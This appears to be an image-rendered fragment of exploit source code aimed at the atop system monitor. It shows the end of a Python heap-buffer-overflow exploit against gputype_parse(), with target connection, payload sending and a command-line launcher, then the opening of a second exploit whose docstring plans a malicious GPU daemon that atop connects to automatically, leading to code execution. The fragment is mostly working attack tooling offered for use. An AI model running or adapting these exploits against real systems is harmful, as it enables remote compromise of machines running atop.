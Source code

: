         except Exception as e:
            print(f"[-] Exploit failed: {e}")
    
    def exploit(self):
        """
        Execute the complete exploit
        """
        print("=" * 60)
        print("ATOP gputype_parse() Heap Buffer Overflow Exploit")
        print("Target: gpucom.c gputype_parse() function")
        print("=" * 60)
        
        if not self.connect_to_target():
            return False
            
        self.send_exploit_payload()
        
        if self.sock:
            self.sock.close()
            
        return True

def main():
    if len(sys.argv) > 1:
        target_host = sys.argv[1]
    else:
        target_host = "127.0.0.1"
        
    if len(sys.argv) > 2:
        target_port = int(sys.argv[2])
    else:
        target_port = 4321
        
    exploit = GPUTypeOverflowExploit(target_host, target_port)
    exploit.exploit()

if __name__ == "__main__":
    main()


automatic_connection_exploit
[16:48:34]
#!/usr/bin/env python3
"""
ATOP Automatic Daemon Connection Exploit
Target: atop.c lines 777-790 (gpud_init() automatic connection)
CWE-306, CWE-862 | CVSS 8.5/10

Vulnerability Analysis:
- Lines 777-790: gpud_init() called without user consent
- No authentication required for daemon connections
- Automatic execution on startup

Exploitation Strategy:
1. Set up malicious GPU daemon on expected port
2. Wait for ATOP to automatically connect
3. Send malicious GPU data to trigger secondary exploits
4. Achieve code execution through combined attack
"""
